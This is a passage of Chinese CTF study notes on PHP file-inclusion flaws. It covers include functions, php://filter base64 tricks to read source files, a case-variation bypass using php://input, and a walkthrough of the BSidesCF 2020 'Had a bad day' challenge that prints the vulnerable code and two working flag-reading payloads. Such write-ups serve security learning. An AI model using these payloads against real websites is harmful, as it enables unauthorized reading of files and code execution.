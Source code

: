 python的标准反序列化，抓包修改beacon即可

## 文件包含

```
PHP文件包含函数:require、include、require_once、include_once
包含函数 一共有四个，主要作用为包含并运行指定文件。
include $file;
在变量 $file 可控的情况下，我们就可以包含任意文件，从而达到 getshell 的目的。
另外，在不同的配置环境下，可以包含不同的文件。
因此又分为远程文件包含和本地文件包含。
包含函数也能狗读取任意文件内容，这就需要用到【支持的协议和封装协议】和【过滤器】。
例如，利用php流filter读取任意文件
include($_GET[‘file‘]);
```



### include

https://blog.csdn.net/weixin_43818995/article/details/104164700

页面使用strstr替换了php://，使用大小写绕过

pHp://input，bp加上后面php代码即可

php://filter/read/convert.base64-encode/resource=index.php

### [BSidesCF 2020]Had a bad day

进去是?category=woofers，写别的，报错，有注入点，尝试php://filter/read/convert.base64-encode/resource=index，出源码

```
 <?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
```

这里需要把flag套进去base64解码里面，两种方法

1. ?category=woofersphp://filter/read/convert.base64-encode/index/resource=flag
2. ?category=woofersphp://filter/read/convert.base64-encode/resource=index/../flag

## 文件上传


[2020强网杯]: https://www.gem-love.com/ctf/2576.html#Funhash
[^PHP花式绕过大全]: https://blog.csdn.net/xiayu729100940/article/details/102619255
[PHP中MD5碰撞Bypass]: https://evi0s.com/2019/02/09/md5-collisions/
[2021陕西省大学生网络安全技能大赛 Web ez_checkin]: https://www.cnblogs.com/seizer/p/14840901.html
[难版pop链]: https://www.136.la/nginx/show-127914.html
[PHP之十六个魔术方法详解]:  https://segmentfault.com/a/1190000007250604